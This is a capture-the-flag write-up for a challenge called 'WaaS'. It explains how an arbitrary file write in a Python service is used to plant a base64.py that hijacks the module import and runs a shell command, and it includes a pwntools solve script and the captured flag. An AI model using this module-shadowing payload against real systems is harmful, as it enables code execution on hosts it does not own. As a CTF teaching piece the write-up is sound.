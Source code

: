 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
]
draft = true
+++

# Waas

**Desc**: Writing as a Service!

**Authors**: NoobMaster + NoobHacker

**Points**: 491

**Solve**: 78

## Introduction

WaaS (Writing as a Service) allows us to overwrite a file on the system (after some input validation) and insert anything (until a newline is met) we want in it.

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

At first one may think of trying to bypass the input validation to perhaps rewrite the workings of the cat command or the challenge file itself, but this isn't possible.
Something very bizarre is the imported but unused `b64decode` from the `base64` module, which is what allows us to solve the challenge.
When python imports modules it looks in `sys.path`, which has a list of valid directories to import modules from. After a quick scan through the [python3 docs](https://docs.python.org/3/library/sys_path_init.html) we find out that the first directory it looks through is the same directory the file is in, this means that if we have a `base64.py` file in the directory then python will try to import a `b64decode` symbol from that file instead of the common known module.
One more feature of python's import behavior we can use is the that all the code in an imported module will be executed. For example if a file `test.py` has `print('Hello, World!')` and it can be executed (for example if it's at the lowest indentation level) then a file with `import test` will indeed see `Hello, World!` printed to `stdout`.
Therefore, since the `open` function with a `'w'` flag will create a file if it does not exist, we can simply create a file named `base64.py` and write our malicious code in it.
Something like this will do the trick:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

But the flag isn't our yet; we need to use the fact that the instance does not reset its files every time we connect to it, which means that our `base64.py` will remain in the directory for the lifetime of the instance. This means we simply need to reconnect to it and get our flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```
flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
